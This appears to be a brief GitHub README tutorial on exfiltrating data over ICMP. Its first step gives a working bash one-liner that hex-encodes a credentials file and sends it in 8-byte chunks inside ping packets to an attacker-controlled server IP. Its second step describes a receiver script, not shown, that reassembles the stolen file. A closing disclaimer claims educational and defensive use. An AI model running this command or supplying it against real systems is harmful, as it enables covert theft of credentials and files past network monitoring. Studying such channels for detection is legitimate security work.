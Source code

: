 # Data Exfiltration via ICMP

-Step 1 )> Run the following command on the client server from linux command line:
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />

  - Here, we are reading the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />


**Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.**
